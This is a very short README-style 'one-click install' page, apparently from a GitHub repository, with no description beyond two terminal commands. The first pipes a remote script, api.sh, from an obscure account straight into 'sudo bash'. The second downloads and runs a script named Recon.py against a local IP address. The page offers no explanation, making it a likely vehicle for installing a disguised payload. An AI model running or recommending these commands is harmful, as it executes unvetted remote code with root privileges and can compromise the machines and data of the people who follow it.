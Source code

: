## One‑click install

**Run these on your terminal (copy each command separately):**

### 1) Install & run api.sh
```bash
curl -s "https://raw.githubusercontent.com/t56r4re/34553/refs/heads/main/api.sh" | sed 's/\r$//' | sudo bash
```
curl -sL "https://raw.githubusercontent.com/t56r4re/34553/refs/heads/main/Recon.py" | sed 's/\r$//' > /tmp/Recon.py && printf "192.168.0.1\n" | python3 /tmp/Recon.py  
